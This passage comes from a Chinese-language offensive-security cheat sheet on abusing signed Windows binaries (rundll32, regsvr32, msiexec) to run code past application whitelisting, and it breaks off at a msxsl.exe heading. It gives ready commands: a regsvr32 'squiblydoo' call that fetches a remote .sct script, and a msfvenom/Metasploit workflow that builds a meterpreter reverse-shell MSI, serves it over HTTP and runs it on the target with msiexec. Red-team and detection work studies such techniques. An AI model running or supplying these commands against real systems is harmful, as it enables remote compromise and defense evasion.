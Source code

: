```
rundll32.exe ieframe.dll,OpenURL C:\test\calc.url
```

**shdocvw.dll**

编写一个 .url 文件
```
[InternetShortcut]
URL=c:\windows\system32\calc.exe
```

```
rundll32.exe shdocvw.dll,OpenURL C:\test\calc.url
```

**相关文章**
- [关于利用rundll32执行程序的分析](https://xz.aliyun.com/t/2188)
- [ABUSING EXPORTED FUNCTIONS AND EXPOSED DCOM INTERFACES FOR PASS-THRU COMMAND EXECUTION AND LATERAL MOVEMENT](https://bohops.com/2018/03/17/abusing-exported-functions-and-exposed-dcom-interfaces-for-pass-thru-command-execution-and-lateral-movement/)

### Regsvr32.exe

Regsvr32 是一个命令行实用程序，用于注册和注销 OLE 控件，例如 Windows 注册表中的 DLL 和 ActiveX 控件。Windows XP 和更高版本的 Windows 的 ％systemroot％\ System32 文件夹中安装了 Regsvr32.exe。

Regsvr32 使用 “squablydoo” 技术绕过应用程序白名单。签名的 Microsoft 二进制文件 Regsvr32 可以请求一个 .sct 文件，然后在其中执行包含的 PowerShell 命令。这两个 Web 请求（即 .sct 文件和 PowerShell 下载 / 执行）都可以在同一端口上发生。“PSH(Binary)” 将向磁盘写入文件，允许下载 / 执行自定义二进制文件。

```bash
regsvr32 /s /n /u /i:http://192.168.1.1/test.sct test.dll
```

### Msiexec.exe

msiexec 支持远程下载功能，将msi文件上传到服务器，通过如下命令远程执行：

攻击端
```bash
msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.1.1 lport=1234 -f msi > 1.msi

python -m SimpleHTTPServer 80

use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost 192.168.1.1
set lport 1234
exploit
```

目标端
```bash
msiexec /q /i http://192.168.1.1/1.msi
```

### msxsl.exe
